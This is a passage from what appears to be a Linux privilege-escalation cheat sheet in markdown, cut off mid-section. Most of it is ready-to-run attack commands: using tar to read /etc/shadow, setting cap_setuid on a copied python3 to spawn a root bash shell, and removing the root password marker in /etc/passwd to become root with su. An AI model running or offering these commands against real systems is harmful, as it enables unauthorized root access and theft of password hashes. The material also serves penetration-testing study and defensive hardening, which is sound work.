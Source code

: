 Bypass file read permission checks and directory read and execute permission checks.

```bash
# Tar (https://gtfobins.github.io/gtfobins/tar/)
LFILE=/etc/shadow
tar xf "$LFILE" -I '/bin/sh -c "cat 1>&2"'
```

<br />

## Set Capabilities

```sh
setcap cap_setuid+ep /path/to/binary
```

If you found the **setcap** with **SUID**, you can manipulate commands like Python.

```sh
cp /usr/bin/python3 /home/<current-user>/python3
setcap cap_setuid+ep /home/<current-user>/python3
```

Then get a root shell.

```sh
/home/<current-user>/python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

<br />

## Override /etc/passwd, /etc/shadow

### /etc/passwd

If we have write permission of **`/etc/passwd`** by some means, we can modify this file as desired for us. First check the content of that file with **`cat /etc/passwd`**.

```bash
root:x:0:0:root:/root:/bin/sh
...
```

By removing this `x` character in the root line, we can become root without password. Below

```bash
root::0:0:root:/root:/bin/sh
...
```

After that, we can get a shell as root using the following command.

```bash
su root
```

### /etc/shadow

If we have write permission of **`/etc/shadow`** by some means, we can modify the password for each user.  
First of all, create a new password using **`openssl`**.

